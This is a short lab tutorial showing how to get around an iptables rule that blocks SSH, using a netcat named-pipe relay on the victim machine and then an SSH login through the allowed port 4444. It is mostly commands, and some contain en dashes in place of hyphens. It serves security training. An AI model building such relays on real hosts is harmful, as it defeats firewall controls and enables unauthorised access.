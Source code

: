 ```yaml
---
icon: forward
---
```


# Bypassing Firewall with Forward Relays

## Lab Setup

### Block port for incoming TCP packet on Victim Machine

```
sudo iptables -A INPUT -s <attacker ip> -p tcp --dport 22 -j DROP
```

### Allow TCP packet on another port on Victim Machine

```
iptables –I INPUT 1 –s <attacker ip> –p tcp --dport 4444 –j ACCEPT
```

### Check netcat communication between Attacker and Client

#### On Victim Machine

```
nc –v –l –p 4444
```

#### On the Kali Machine

```
nc 192.168.1.7 4444
```



***

## Use Netcat Realy Backpipe to Access SSH Service

The First command makes a special type of file called a FIFO or **named pipe**. We call it backpipe because it is going to carry our responses back through the relay.

Now the second command makes a netcat listener that is allowed through the firewall. This Netcat listener will connect its standard input (0<) to the backpipe. We then forward the standard output of this Netcat listener to Netcat client, which connects to our localhost (127.0.0.1) on TCP port 22 where sshd listens. We then use the forward pipe (1>) to send data and receive responses simultaneously. We need a back and forward pipe because Netcat provides two-way communication.

{% hint style="info" %}
For this you need to have  access to the victim machine.
{% endhint %}

### Victim Machine

```
mknod /tmp/backpipe p
```

* p: Tells the mknod to create a FIFO

```
nc –l –p 4444 0</tmp/backpipe | nc localhost 22 1>/tmp/backpipe
```

* -l: **Listener**
* **-p: Port**



### Attacker Machine

#### Access SSH Through Netcat Relay

```
ssh msfadmin@10.10.10.3 –p 4444
```

* -p : **To specify Port**



***

## REFERENCES

* [https://www.hackingarticles.in/bypass-ssh-restriction-by-port-relay/](https://www.hackingarticles.in/bypass-ssh-restriction-by-port-relay/)

